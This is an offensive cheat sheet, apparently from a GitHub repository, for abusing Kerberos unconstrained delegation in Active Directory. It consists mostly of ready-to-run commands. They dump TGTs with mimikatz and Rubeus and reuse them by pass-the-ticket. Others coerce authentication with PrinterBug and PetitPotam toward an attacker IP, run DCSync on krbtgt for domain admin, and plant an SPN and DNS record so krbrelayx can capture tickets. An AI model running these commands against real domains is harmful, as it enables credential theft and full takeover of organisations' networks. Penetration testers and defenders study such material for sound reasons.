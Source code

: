 # Unconstrained Delegation

The first hop server can request access to any service on any computer

## Requirements: UAC: ADS_UF_TRUSTED_FOR_DELEGATION

## Tools: Rubeus , mimikatz 

# Enumerate Computers with Unconstrained Delegation

    Get-NetComputer -UnConstrained

##### With AD Module

    Get-ADComputer -Filter {TrustedForDelegation -eq $True}
    Get-ADUser -Filter {TrustedForDelegation -eq $True}

# Get tickets

After compromising the computer with UD enabled, we can trick or wait for an admin connection

#### 1) mimikatz

    mimikatz "privilege::debug sekurlsa::tickets /export sekurlsa::tickets /export (Get TGT ticket)

#### 2) Rubeus

    Rubeus dump /service:krbtgt /nowrap (Get TGT ticket)

    Rubeus dump /luid:0xdeadbeef /nowrap (Get TGT ticket)

# Reuse the ticket (Pass-the-Ticket

    Invoke-Mimikatz -Command '"kerberos::ptt ticket.kirbi"'

# Force_coercion_with_coerced_auth

#### 1) To force another computer to connect to the compromised machine in UD, and capture the TGT by monitoring:

    Rubeus monitor /interval:5 /nowrap (Get TGT)

On the attacking machine, run

##### PrinterBug

    .\MS-RPRN.exe \\<target>.domain.local \\unconstrainedMachine.domain.local

##### PetitPotam

    .\PetitPotam.exe attacker_ip <target>.domain.local

### We get the ticket, then we move laterally with Pass the Ticket. If the target is a DC, we do a DC Sync to get Domain Admin access

    .\Rubeus.exe ptt /ticket:...

##### DCSync with the dc TGT

    Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt"'

# Any principal in Unconstrained Delegation

If we have enough rights against a principal (computer or user) in UD to add a SPN on it and know its password, we can try to use it to retrieve a machine account password from an authentication coercion.

### 1) Add a new DNS record on the domain that points to our IP

### 2) Add a SPN on the principal that points to the DNS record and change its password (will be useful for the tool krbrelayx.py to extract the TGT from the ST)

### 3) Trigger the authentication and grab the ST (and TGT in it) on krbrelayx that is listening for it

Since the principal is in Unconstrained Delegation, when the machine account will send the ST to the SPN it will automatically add a TGT in it, and because the SPN is pointing to us with the DNS record, we can retrieve the ST, decipher the ciphered part with the user password (the SPN is setup on the user, so the ST is ciphered with his password), and retrieve the TGT.

##### Add the SPN with the Microsoft module

    Set-ADUser -Identity <principal_in_UD> -ServicePrincipalName @{Add='HOST/test.domain.local'}

##### Create the DNS record

    Invoke-DNSUpdate -DNSType A -DNSName test.domain.local -DNSData <attacker_IP> -Realm domain.local

##### Run krbrelayx with the hash of the password setup on the UD user

    python3 krbrelayx.py -hashes :2B576ACBE6BCFDA7294D6BD18041B8FE -dc-ip dc.domain.local

##### Trigger the coercion

    .\PetitPotam.exe <attacker_ip> <target_IP>
